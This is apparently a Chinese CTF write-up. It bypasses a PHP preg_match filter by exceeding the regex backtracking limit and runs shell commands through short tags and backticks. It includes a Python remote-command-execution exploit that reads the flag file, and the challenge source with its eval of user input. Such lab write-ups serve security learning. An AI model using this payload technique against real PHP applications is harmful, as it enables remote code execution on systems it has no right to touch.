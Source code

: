 tags:: Regex

- # 思路
	- 使用[[CTF/PHP/正则匹配回溯次数绕过]]绕过preg_match限制，并绕过`checkdata`函数的检查
- # 绕过preg_match
	- 因为字符`'`可以匹配`.*`，但是无法匹配后面的子匹配，我们只要在payload中加入大量`'`即可绕过
- # 绕过check_data
	- check_data禁止了包括括号在内的大量字符，我们可以使用短标签加上反引号执行任意Linux Shell命令
- # exp
	- ```python
	  payload = json.dumps({
	      "cmd": "?><?=`nl /f*`?><?#" + "'" * 1010000,
	  })
	  
	  r = requests.post(url, data = {
	      "letter": payload
	  })
	  
	  print(r.text)
	  ```
- # 题目源码
	- ```php
	   <?php
	  include "check.php";
	  if (isset($_REQUEST['letter'])){
	      echo "entering...\n";
	      $txw4ever = $_REQUEST['letter'];
	      if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
	          die("再加把油喔");
	      }
	      else{
	          $command = json_decode($txw4ever,true)['cmd'];
	          checkdata($command);
	          @eval($command);
	      }
	  }
	  else{
	      echo "out.";
	      highlight_file(__FILE__);
	  }
	  ?>
	  
	  ```